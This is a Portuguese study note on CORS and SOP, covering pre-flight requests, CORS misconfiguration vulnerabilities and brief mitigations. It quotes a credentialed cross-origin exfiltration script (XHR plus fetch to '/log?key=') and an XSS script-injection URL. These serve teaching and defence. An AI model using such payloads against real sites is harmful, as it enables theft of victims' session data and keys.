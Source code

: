 #web #fundamentals 


O CORS ou **Cross-origin resource sharing** é um mecanismo presente nos navegadores para habilitar o acesso a recursos de outros domínios ou outras fontes. Ele extende outro mecanismo o [[SOP]].

## CORS e SOP

O SOP é um mecanismo bem restritivo e muitos websites interajem com outros websites, seja de subdomínios ou websites de terceiros. Uma maneira de "relaxar" essa interação é através do CORS.

O CORS utilizada um conjunto de headers HTTP para definir as origens confiáveis, como por exemplo:
* **Access-Control-Allow-Origin** -> quando um servidor web recebe uma requisição HTTP de origem diferente, ele responde incluindo esse header na resposta.
* **Access-Control-Allow-Credentials** -> o comportamento padrão de requisições CORS são de requisições onde não é passado as credenciais, entretanto o servidor pode permitir que o JS na origem inclua as credenciais na requisição.

## Pre-flight

É uma requisição CORS que utiliza 3 headers HTTP:

```
OPTIONS /resource/foo
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: https://foo.bar.org
```

Essa requisição é enviada automaticamente para o servidor, perguntando ao servidor se é possível utilizar requisições como por exemplo o **DELETE**.

Se o servidor permitir, ele irá retorna a resposta com seguinte cabeçalho:

```
HTTP/1.1 204 No Content
Connection: keep-alive
Access-Control-Allow-Origin: https://foo.bar.org
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE
Access-Control-Max-Age: 86400
```

## CORS e CSRF

O CORS não protege contra [[CSRF]], apenas flexibiliza a utilização do SOP, porém, se mal configurado pode ser uma ameaça a CSRF. 

## Vulnerabilidades

### Header ACAO gerado pelo servidor

Algumas aplicações permitem que qualquer domínio acesse seus recursos. Uma forma de testar isto é, modificando o `origin` e vendo a resposta do servidor.

| Requisição                                      | Resposta                                      |
| ------------------------------------------------ | --------------------------------------------- |
| `GET /sensitive-victim-data HTTP/1.1`            | `HTTP/1.1 200 OK`                             |
| `Host: vulnerable-website.com`                   | `Access-Control-Allow-Origin: https://malicious-website.com` |
| `Origin: https://malicious-website.com`          | `Access-Control-Allow-Credentials: true`     |
| `Cookie: sessionid=...`                          | ...                                           |

Se a informação retorna dados sensíveis como dados de sessão, o *hacker* pode enviar um website fake para a vítima para colher esses dados, usando por exemplo o script abaixo:

```html
<script>
    var xhr = new XMLHttpRequest();
    var url = "https://site-legitimo";
            
    xhr.onreadystatechange = function() {
       if(xhr.readyState === XMLHttpRequest.DONE) {
            fetch("/log?key=" + xhr.responseText);
	    }
    }
    xhr.open("GET", url, "/sensitive-victim-data", true);
    xhr.withCredentials = true;
    xhr.send(null);
</script>
```

### Whitelists

Um das formas de permitir determinados domínios, é criando uma lista de domínios permitidos. Algumas aplicações podem criar essas listas para permitir o acesso de todos os subdomínios (incluindo futuros subdomínios que não existe) por meio de regex ou adicionando prefixos e sufixos na url. Qualquer erro nessa implementação pode garantir acesso de domínios externos.

Outro caso, é o uso do valor `null` na *whitelist* para dar acesso ao ambiente de desenvolvimento local da aplicação.

| Requisição                                      | Resposta                                      |
| ------------------------------------------------ | --------------------------------------------- |
| `GET /sensitive-victim-data HTTP/1.1`            | `HTTP/1.1 200 OK`                             |
| `Host: vulnerable-website.com`                   | `Access-Control-Allow-Origin: null` |
| `Origin: null`                                      | `Access-Control-Allow-Credentials: true`     |

Essa situação é semelhante a situação anterior.

### XSS

Mesmo que o CORS esteja configurado certo, se um website confiável é vulnerável a [[XSS]], o *hacker* pode usar isso ao seu favor, podendo pegar uma API key, usando a url:

```
https://subdomain.site-vulneravel.com/?xss=<script>aquele codigo acima do cors por exemplo</script>
```
## Como mitigar

* Evite usar o header `Access-Control-Allow-Origin: Null` e `Access-Control-Allow-Origin:*`
* Acesse apenas websites confiáveis

## Referência

https://portswigger.net/web-security/cors#vulnerabilities-arising-from-cors-configuration-issues